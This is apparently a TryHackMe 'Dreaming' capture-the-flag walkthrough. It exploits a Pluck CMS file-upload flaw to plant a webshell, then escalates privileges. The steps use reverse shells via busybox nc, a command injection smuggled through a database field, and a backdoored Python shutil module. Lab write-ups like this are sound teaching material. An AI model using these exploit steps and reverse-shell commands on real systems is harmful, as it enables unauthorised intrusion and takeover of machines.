# Dreaming Writeup by Disturbante

## https://tryhackme.com/room/dreaming

This is an easy linux machine but it's quite fun and teach a lot of linux misconfigurations and vulnerability lessons.<br>
Let's begin the machine with a classic nmap scan of the given ip:
```bash
nmap -p- 10.10.144.50
```
output:
```bash
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```
Since we have only two ports open we can enumerate better those ports with a slower scan:
```bash
nmap -sC -sV -p22,80 -T4 10.10.144.50
```
output:
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 76:26:67:a6:b0:08:0e:ed:34:58:5b:4e:77:45:92:57 (RSA)
|   256 52:3a:ad:26:7f:6e:3f:23:f9:e4:ef:e8:5a:c8:42:5c (ECDSA)
|_  256 71:df:6e:81:f0:80:79:71:a8:da:2e:1e:56:c4:de:bb (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

# www-data

We didn't get much from this scan, other than a default Apache page on the port 80.<br>
In fact i started a directory bruteforcing to find something interesting on this site:
```bash
feroxbuster -u http://10.10.144.50/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x php,html,txt,bak,js
```
output:
```bash
200      GET       15l       74w     6147c http://10.10.144.50/icons/ubuntu-logo.png
200      GET      375l      964w    10918c http://10.10.144.50/
200      GET      375l      964w    10918c http://10.10.144.50/index.html
301      GET        9l       28w      310c http://10.10.144.50/app => http://10.10.144.50/app/
301      GET        9l       28w      323c http://10.10.144.50/app/pluck-4.7.13 => http://10.10.144.50/app/pluck-4.7.13/
```
Other than the default crawled path we got a `/app/` and a `/app-4.7.13/` from directory indexing(this is the first misconfig).<br>
If we visit the path we can see this:
	

	
As the title says it is a [Pluck-cms](https://github.com/pluck-cms/pluck), an opensource CMS.<br>
If we look a bit further we can see that there is a login page on `/app/pluck-4.7.13/login.php`:
	

	
I tried as always a bit of weak passwords like:

- admin
- administrator
- password

And eventually i had luck with `password`
	

	
Now that we are logged i tried to do something in the admin page but didn't found much, so i searched online some known exploits, and fond [this](https://www.exploit-db.com/exploits/49909).<br>
It is a file upload vulnerability that doesn't check the extension.<br>
We can run the exploit like this(i left the default payload, in a real scneario i would change the shell to an obfuscated one):
```bash
curl https://www.exploit-db.com/download/49909 -o  49909.py
python3 49909.py 10.10.144.50 80 password /app/pluck-4.7.13
```
output:
```bash

Authentification was succesfull, uploading webshell

Uploaded Webshell to: http://10.10.144.50:80/app/pluck-4.7.13/files/shell.phar
```
Now we can visit this path and interact with the webshell that we choose (in this case the default one):
	

	

# Lucien
I like to get a better shell so i started a listener on my local machine with:
```bash
pwncat-cs -lp 5555
```
Then on the webshell i used this reverse-shell:
```bash
busybox nc 10.8.79.118 5555 -e /bin/bash
```

Now i have a more powerfull shell on my terminal so i can continue towards the privesc.<br>
By enumerating a bit the file system<br>
(in fact to be a little more realistic i tried to use linpeas only when i dind't find things manually.)<br>
i found 2 interesting scripts in `/opt` folder:
```bash
ls /opt/
```
output:
```bash
total 16
drwxr-xr-x  2 root   root   4096 Aug 15 12:45 .
drwxr-xr-x 20 root   root   4096 Jul 28 22:35 ..
-rwxrw-r--  1 death  death  1574 Aug 15 12:45 getDreams.py
-rwxr-xr-x  1 lucien lucien  483 Aug  7 23:36 test.py
```
I can read all the scripts, so i started with the one that i could also execute (`test.py`):
```bash
cat /opt/test.py
```
output:
```bash
import requests

#Todo add myself as a user
url = "http://127.0.0.1/app/pluck-4.7.13/login.php"
password = "He[REDACTED]!"

data = {
        "cont1":password,
        "bogus":"",
        "submit":"Log+in"
        }

req = requests.post(url,data=data)

if "Password correct." in req.text:
    print("Everything is in proper order. Status Code: " + str(req.status_code))
else:
    print("Something is wrong. Status Code: " + str(req.status_code))
    print("Results:\n" + req.text)
```
This is a python auto login script with hardcoded credentials(another misconfiguration).<br>
So i tried to use those creds to login as Lucien user and succeded!:
	

	

# Death

Once we are in with lucien user we can start the same enumeration process without using linpeas for now.<br>
In fact in lucien user i found something shoulden't be left in a real production machine: _.bash_history_:
```bash
ls -la /home/lucien/
```
output:
```bash
total 44
drwxr-xr-x 5 lucien lucien 4096 Aug 25 16:26 .
drwxr-xr-x 5 root   root   4096 Jul 28 22:26 ..
-rw------- 1 lucien lucien  684 Aug 25 16:27 .bash_history
-rw-r--r-- 1 lucien lucien  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 lucien lucien 3771 Feb 25  2020 .bashrc
drwx------ 3 lucien lucien 4096 Jul 28 18:42 .cache
drwxrwxr-x 4 lucien lucien 4096 Jul 28 18:42 .local
-rw-rw---- 1 lucien lucien   19 Jul 28 16:27 lucien_flag.txt
-rw------- 1 lucien lucien  696 Aug 25 16:26 .mysql_history
-rw-r--r-- 1 lucien lucien  807 Feb 25  2020 .profile
drwx------ 2 lucien lucien 4096 Jul 28 14:25 .ssh
-rw-r--r-- 1 lucien lucien    0 Jul 28 14:28 .sudo_as_admin_successful
```
as we can see both:
```bash
-rw------- 1 lucien lucien  684 Aug 25 16:27 .bash_history
-rw------- 1 lucien lucien  696 Aug 25 16:26 .mysql_history
```
has around 600 bytes of contents and they are not hardlinked to /dev/null.<br>
This means that we can see the command typed from a user, and possibly hardcoded terminal passwords:
```bash
cat .bash_history
```
output:
```bash
[...]
mysql -u lucien -p[REDACTED]
ls -la
cat .bash_history 
cat .mysql_history 
clear
[...]
sudo -l
/usr/bin/python3 /home/death/getDreams.py
sudo -u death /usr/bin/python3 /home/death/getDreams.py
[...]
```
We can see that we have a password to login in the MYSQL database.<br>
but before that we also see that by running:
```bash
sudo -l
```
output:
```bash
Matching Defaults entries for lucien on dreaming:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lucien may run the following commands on dreaming:
    (death) NOPASSWD: /usr/bin/python3 /home/death/getDreams.py
```
Before running the script i remembered from before that i saw a script with that name in the /opt/ folder:
```bash
cat /opt/getDreams.py
```
output:
```python
import subprocess

# MySQL credentials
DB_USER = "death"
DB_PASS = "#redacted"
DB_NAME = "library"

import mysql.connector
import subprocess

def getDreams():
    try:
        # Connect to the MySQL database
        connection = mysql.connector.connect(
            host="localhost",
            user=DB_USER,
            password=DB_PASS,
            database=DB_NAME
        )

        # Create a cursor object to execute SQL queries
        cursor = connection.cursor()

        # Construct the MySQL query to fetch dreamer and dream columns from dreams table
        query = "SELECT dreamer, dream FROM dreams;"

        # Execute the query
        cursor.execute(query)

        # Fetch all the dreamer and dream information
        dreams_info = cursor.fetchall()

        if not dreams_info:
            print("No dreams found in the database.")
        else:
            # Loop through the results and echo the information using subprocess
            for dream_info in dreams_info:
                dreamer, dream = dream_info
                command = f"echo {dreamer} + {dream}"
                shell = subprocess.check_output(command, text=True, shell=True)
                print(shell)
[...]
```
this script has a command injection vulnerability here:
```python
for dream_info in dreams_info:
	dreamer, dream = dream_info
	command = f"echo {dreamer} + {dream}"
	shell = subprocess.check_output(command, text=True, shell=True)
```
In fact if we can controll the dreamer or the dream we can inject commands.<br>
To do so we need to log in the database and update the value of that filed.
	

	
we updated the table dreams on the library database in this way:
```sql
update dreams set dream='; busybox nc 10.8.79.118 5555 -e /bin/bash;' where dreamer='Alice';
```
Now we can start the listener on our local machine:
```bash
pwncat-cs -lp 5555
```
Finally we can run the python script to get the reverseshell:
```bash
sudo -u death /usr/bin/python3 /home/death/getDreams.py
```
We got our shell as Death user!:
	

	

# Morpheus

We need to pivot to the last user, i still don't want to use linpeas so i started enumerating a bit manually the machine with the new user access.<br>
But didn't find much, then i tried to run pspy to see some process that may be runned once every time such as crontabs.<br>
So i uploaded [Pspy](https://github.com/DominicBreuker/pspy) using pwncat:
```bash
Ctrl + d
upload /home/kali/Pentest/pspy64  /tmp/pspy
Ctrl + d
chmod +x /tmp/pspy
```
Finally we can run pspy and wait for some process to appear:
```bash
/tmp/pspy
```
output:
	

	
We can see that after roughly a minute we can see that script runned by the user with uid 1002, from pwnca enumeration module we can see that it's morpheus, the user with more privs:
	

	
so i checked if i could read that python script :
```bash
ls -la /home/morpheus/restore.py
``` 
output:
```bash
-rw-rw-r-- 1 morpheus morpheus 180 Aug  7 23:48 /home/morpheus/restore.py
```
We have a all `user read` bit set so we can read it:
```bash
cat /home/morpheus/restore.py
```
output:
```python
from shutil import copy2 as backup

src_file = "/home/morpheus/kingdom"
dst_file = "/kingdom_backup/kingdom"

backup(src_file, dst_file)
print("The kingdom backup has been done!")
```
The script is not doing much, but it is a python script so i order to do some import hijacking i searched if i could write to some python files.<br>
In order to find which file was being imported i wrote this little python script inside the interactive python console:
```python
import shutil
print(shutil.__file__)
```
output:
```bash
/usr/lib/python3.8/shutil.py
```
we have our file, now we need to check if we have write permissions:
```bash
ls -la /usr/lib/python3.8/shutil.py
```
output:
```bash
-rw-rw-r-- 1 root death 51474 Aug  7 23:52 /usr/lib/python3.8/shutil.py
```
We are inside the death group so that means we can write the file.<br>
In fact we just need to change the content of the `copy2` function from this:
```python
def copy2(src, dst, *, follow_symlinks=True):
    """Copy data and metadata. Return the file's destination.

    Metadata is copied with copystat(). Please see the copystat function
    for more information.

    The destination may be a directory.

    If follow_symlinks is false, symlinks won't be followed. This
    resembles GNU's "cp -P src dst".
    """
    if os.path.isdir(dst):
        dst = os.path.join(dst, os.path.basename(src))
    copyfile(src, dst, follow_symlinks=follow_symlinks)
    copystat(src, dst, follow_symlinks=follow_symlinks)
    return dst
```
to this:
```python
def copy2(src, dst, *, follow_symlinks=True):
    """Copy data and metadata. Return the file's destination.

    Metadata is copied with copystat(). Please see the copystat function
    for more information.

    The destination may be a directory.

    If follow_symlinks is false, symlinks won't be followed. This
    resembles GNU's "cp -P src dst".
    """
    os.system('busybox nc 10.8.79.118 6666 -e /bin/bash')
    if os.path.isdir(dst):
        dst = os.path.join(dst, os.path.basename(src))
    copyfile(src, dst, follow_symlinks=follow_symlinks)
    copystat(src, dst, follow_symlinks=follow_symlinks)
    return dst
```
Now we just need to start another listener on our local machine and wait:
```bash
pwncat-cs -lp 6666
```
	

	
After a while we got our call back.<br>

# Root

The morpheus user has all the perms with sudo:
```bash
sudo -l
```
output:
```bash
Matching Defaults entries for morpheus on dreaming:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User morpheus may run the following commands on dreaming:
    (ALL) NOPASSWD: ALL
```
So we just need to run:
```bash
sudo su root
```
	

	
Now We are root so we can procede with the post exploitation and persistence procedures.


